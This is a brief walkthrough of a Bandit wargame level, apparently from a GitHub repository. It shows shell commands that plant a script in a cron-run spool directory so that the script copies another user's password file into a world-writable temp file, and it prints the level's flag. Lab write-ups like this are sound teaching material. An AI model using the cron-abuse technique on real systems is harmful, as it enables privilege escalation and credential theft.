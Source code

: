 `bandit-23-conn.sh`

### Description
This is reinforcing your understanding of `cron`.  

1. We look at bandit22's cronjobs
2. We look at the script that is set in bandits cronjob
3. We try to put a script in the /var/spool/bandit24/.
    1. This should run because of `cron`
   
```bash
ls -al /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
ls -al /var/spool | grep bandit

guid=$(date +%s)
tdir=/tmp/$guid && mkdir $tdir && cd $tdir
sh_name=$guid.sh

printf "xz/bin/bash\n" | tr 'xz' '#!' > $tdir/get_bandit24_pass.sh
printf "cat /etc/bandit_pass/bandit24 > ${tdir}/bandit24_pass\n" >> $tdir/get_bandit24_pass.sh
touch $tdir/bandit24_pass

chmod 777 $tdir/bandit24_pass
chmod 777 $tdir/get_bandit24_pass.sh
cp $tdir/get_bandit24_pass.sh /var/spool/bandit24/$sh_name
```

**Flag:** `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

* Must create file "$tdir/bandit24_pass", since the /tmp dir that was made isnt world writable.
